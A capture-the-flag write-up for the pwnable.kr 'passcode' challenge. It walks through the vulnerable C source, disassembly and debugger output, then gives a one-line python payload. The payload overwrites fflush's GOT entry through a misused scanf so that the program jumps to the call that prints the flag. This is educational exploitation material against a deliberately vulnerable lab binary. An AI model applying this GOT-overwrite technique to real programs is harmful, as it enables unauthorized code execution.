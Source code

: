 # passcode
The fifth challenge from pwnable.kr

## Description
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)

## Solution

After ssh, we see the following:

```sh
ls -lh
```

```sh
-r--r----- 1 root passcode_pwn   48 Jun 26  2014 flag
-r-xr-sr-x 1 root passcode_pwn 7.4K Jun 26  2014 passcode
-rw-r--r-- 1 root root          858 Jun 26  2014 passcode.c
```

We can see that executes with suid bit of passcode_pwn, which would allow it to open flag.

Let's try to compile the source code to see what warning they're talking about.

```sh
gcc passcode.c
```

```
passcode.c: In function ‘login’:
passcode.c:9:2: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
  scanf("%d", passcode1);
  ^
passcode.c:14:9: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
         scanf("%d", passcode2);
         ^
```

If we try to run the program, we get the following:

```sh
./passcode
```

```
Toddler's Secure Login System 1.0 beta.
enter you name : Fuck
Welcome Fuck!
enter passcode1 : 338150
enter passcode2 : 13371337
Segmentation fault
```

Source code is provided again in this challenge, let's take a look at it.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

The disassembly gives us more insight on which memory addresses are being used during the passcode comparisons.

```asm
80485c5:	81 7d f0 e6 28 05 00 	cmpl   $0x528e6,-0x10(%ebp)
80485cc:	75 23                	jne    80485f1 <login+0x8d>
80485ce:	81 7d f4 c9 07 cc 00 	cmpl   $0xcc07c9,-0xc(%ebp)
80485d5:	75 1a                	jne    80485f1 <login+0x8d>
80485d7:	c7 04 24 a5 87 04 08 	movl   $0x80487a5,(%esp)
80485de:	e8 6d fe ff ff       	call   8048450 <puts@plt>
80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)
80485ea:	e8 71 fe ff ff       	call   8048460 <system@plt>
```

Let's see what the stack looks like if we fill name[100].

```sh
pwndbg ./passcode
```

```
pwndbg> b *0x80485c5
Breakpoint 1 at 0x80485c5
```

```
pwndbg> r
Starting program: /home/ctf/challenges/passcode/passcode
Toddler's Secure Login System 1.0 beta.
enter you name : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
enter passcode1 : a
enter passcode2 : checking...

Breakpoint 1, 0x080485c5 in login ()
```

```
pwndbg> x/4wx $ebp-0x10
0xff925418:	0x61616161	0xbf99e000	0x00000000	0x00000000
```

Part of our buffer is reused in the stack of login(), particularly the memory address of passcode1 which is `-0x10(%ebp)`.

`scanf("%d", passcode1)` is not dereferencing passcode1, which means scanf will load an address and write a value there instead.

So let's write an address with the last 4 bytes during `scanf("%100s", name)`, then overwrite with a value of our own during `scanf("%d", passcode1)`.

One thing we can do, since this code is has dynamically linked libraries, is overwrite a reloc in the PLT so that our code jumps where we want when that call is made.

```
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts
0804a010  00000507 R_386_JUMP_SLOT   00000000   system
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf
```

fflush is conveniently called right after our second scanf, and also has neither whitespace/null hex value representations in its address, so let's use that.

`80485e3:	c7 04 24 af 87 04 08 	movl   $0x80487af,(%esp)` is where we want to jump to.

We pad our buffer with 96 bytes, then the address of fflush, `0x0804a004`, then the address we want to jump to when fflush is eventually called, in int representation, `134514147`.


### Capturing the Flag

```sh
passcode@ubuntu:~$ python -c "print('a'*96+'\x04\xa0\x04\x08\n134514147\n10\n')" > /tmp/passcode.input
passcode@ubuntu:~$ ./passcode < /tmp/passcode.input
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
